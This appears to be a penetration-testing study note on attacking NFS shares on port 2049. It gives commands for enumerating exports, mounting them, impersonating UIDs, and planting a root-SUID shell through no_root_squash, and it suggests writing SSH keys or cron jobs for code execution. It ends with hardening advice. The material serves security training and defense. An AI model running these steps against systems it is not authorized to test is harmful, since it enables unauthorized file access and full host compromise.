

# 25 - NFS (Port 2049) Pentesting

## 1. Executive Summary

NFS (Network File System) shares directories across Unix/Linux hosts on **TCP/UDP 2049** (older versions also lean on rpcbind/111 and mountd). Its trust model is the weakness: NFSv3 authorizes by **client IP and the UID/GID the client claims**, not by real credentials. So if you can mount an export, you become whatever user you want locally and access files accordingly. The crown jewel is the **`no_root_squash`** export option, which lets a mounting root stay root on the share — a clean, reliable path to privilege escalation and host compromise.

## 2. Protocol Overview & Architecture

Exports are defined in `/etc/exports` with options that decide squashing:
- **root_squash** (default): remote root is mapped to `nobody`.
- **no_root_squash**: remote root *stays* root on the share — dangerous.
- **all_squash**: every user mapped to `nobody`.

Because NFSv3 trusts the client's UID, you simply create a local user with the matching UID to read "protected" files. NFSv4 consolidates onto port 2049 and supports stronger (Kerberos) auth, but is often deployed with the legacy AUTH_SYS model.

## 3. Enumeration & Footprinting

```bash
# List exports and who may mount them
showmount -e <IP>
nmap -sV --script nfs-showmount,nfs-ls,nfs-statfs -p 2049 <IP>
rpcinfo -p <IP>          # confirm nfs/mountd via portmapper
```

## 4. Exploitation Deep Dive

### 4.1 Mount and Read
```bash
mkdir /mnt/nfs
mount -t nfs -o vers=3 <IP>:/export /mnt/nfs
ls -la /mnt/nfs
```

### 4.2 UID Impersonation (NFSv3)
A file owned by UID 1001 you can't read? Create a local user with UID 1001 and read it:
```bash
useradd -u 1001 victim; su victim; cat /mnt/nfs/secret
```

### 4.3 no_root_squash → Privilege Escalation (SUID drop)
If an export is `no_root_squash`, mount as root and plant a root-SUID shell:
```bash
mount -t nfs <IP>:/export /mnt/nfs
cp /bin/bash /mnt/nfs/rootbash
chown root:root /mnt/nfs/rootbash; chmod u+s /mnt/nfs/rootbash
# On the target host: /export/rootbash -p  → euid=0
```

### 4.4 SSH Key / Cron Write
If the export covers a home directory or cron path, write an `authorized_keys` or cron job for code execution.

## 5. Mermaid Attack Flow



## 6. Post-Exploitation
- Readable shares yield SSH keys, configs, source code, backups.
- `no_root_squash` SUID shell = local root → full host compromise.
- Use foothold for lateral movement.

## 7. Defense & Hardening
1. Never use `no_root_squash`; keep `root_squash`/`all_squash`.
2. Use NFSv4 with **Kerberos (sec=krb5)** auth instead of AUTH_SYS.
3. Restrict exports to specific hosts (no `*`); read-only where possible.
4. Firewall 2049/111 and the mountd port; least-privilege export paths.

## 8. Chaining Opportunities
- Discovered via **[[24 - rpcbind (Port 111) Pentesting]]**.
- no_root_squash → local root → **[[08 - Linux Privilege Escalation]]**.

## 9. Related Notes
- [[24 - rpcbind (Port 111) Pentesting]]
- [[14 - NFS — No_Root_Squash Exploitation]]

## 10. Tools
`showmount`, `mount`/`umount`, `nmap` nfs-*, `rpcinfo`.
